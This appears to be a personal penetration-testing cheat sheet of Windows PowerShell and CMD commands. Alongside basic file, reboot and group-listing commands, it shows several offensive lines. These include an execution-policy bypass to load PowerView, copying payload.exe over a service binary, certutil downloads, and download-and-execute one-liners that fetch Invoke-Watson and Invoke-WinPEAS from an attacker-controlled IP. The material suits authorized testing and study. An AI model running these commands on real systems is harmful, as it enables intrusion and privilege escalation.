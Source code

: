 ```yaml
---
description: The basic of Powershell and CMD
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Import Module to Powershell

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
# or
. .\PowerView.ps1
```

### Copy command

```powershell
# copy files
copy payload.exe "C:\Program Files\Service.exe"

# copy directory name Tools to new directory "MyTools"
xcopy Tools "C:\Users\Administrator\Desktop\MyTools" /E /I
```

### Rename command

```powershell
# Rename Payload.exe to Service.exe
ren Payload.exe Service.exe
```

### Download files

{% code overflow="wrap" %}
```powershell
# using certutil
certutil -urlcache -split -f https://example.com/example.txt example.txt

# using powershell Invoke-WebRequest
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -O "PowerView.ps1"

# Download and Execute script
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-Watson.ps1"))
# or
$watson_exec = [System.Text.Encoding]::UTF8.GetString((iwr -Uri "http://172.16.8.1:9005/Invoke-Watson.ps1" -UseBasicParsing).Content)
iex $watson_exec
```
{% endcode %}

### Download and Execute Invoke-WinPEAS

* [**Invoke-WinPEAS**](https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module\_source/privesc/Invoke-winPEAS.ps1)

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-winPEAS.ps1"))
# or
$winpeas_ps1 = [System.Text.Encoding]::UTF8.GetString((iwr -Uri "http://172.16.8.1:9005/Invoke-winPEAS.ps1" -UseBasicParsing).Content)
iex $winpeas_ps1
```
{% endcode %}

### Restart and Reboot

```powershell
 # Shutdown now
 shutdown /s /t 0 /f

 # Restart
 shutdown /r /t 0 /f
```

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Others

Check privileges

```
whoami /all
whoami /priv
```

Check Group List

```powershell
Get-LocalGroup
net localgroup
Get-ADGroup -filter * -properties * |select SAMAccountName, Description
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-ADGroupMember -Identity Administrators | Select-Object name, objectClass,distinguishedName
```
{% endcode %}
